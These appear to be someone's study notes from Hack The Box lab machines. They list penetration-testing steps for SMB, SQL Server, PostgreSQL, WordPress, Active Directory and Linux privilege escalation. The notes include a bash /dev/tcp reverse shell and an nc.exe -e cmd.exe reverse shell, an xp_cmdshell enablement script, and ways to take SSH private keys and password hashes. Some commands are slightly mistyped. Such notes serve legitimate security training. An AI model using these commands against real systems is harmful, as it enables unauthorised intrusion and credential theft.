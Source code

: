 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`

# Vaccine
Use `zip2john` to brute force attack password protected Zip files

Use www.cractstation.net for rainbow tables for known passwords

## SQL
- If using `sqlmap` and attacking a postgreSQL DB, use `--os-shell` to attempt to get shell
- If you have OS Shell, run `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'` to get reverse shell (requires `nc` listener)

# Shield
- `gobuster` is an alternative to brute force open directories for a web app
- Can use `wp_admin_shell_upload` to get a meterpreter shell
- Upload the `nc.exe` executable and then execute it with `execute -f nc.exe -a "-e cmd.exe IP_ADDR LIST_PORT"`
- `JuicyPotato` to escalate privs

# Pathfinder
- `masscan` to determine open ports faster
- `bloodhound python` generates the files necessary to ingest into the `bloodhound` app
- `GetChangesAll` privileges within a domain can request replication data from a DC aka collect user hashes
- If Kerberos pre-auth is disabled, it's vulnerable to ASREPRoasting (https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

# Included
- Check with `udp` scan for nmap if nothing too fruitful, can show tftp (port 69/udp)
- Vulnerable to directory traversal
- Pentest Monkey Reverse Shell Script: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- LXD Group = high privileged linux Group, which can be used to escalate to root

# Markup
- When there's LFI, and `ssh` enabled, look for private keys (`~/.ssh/id_rsa`) to gain access
- Use `icacls` on Win to look at permission
- Windows `exe`s are available in Kali under `/usr/share/windows-binaries`

# Guard
- escape permissions limitations with `man man` then `!bash`
- `/var/backups` location to check when enumerating the system
- `hashcat -m 1800` = unix passwords

# Base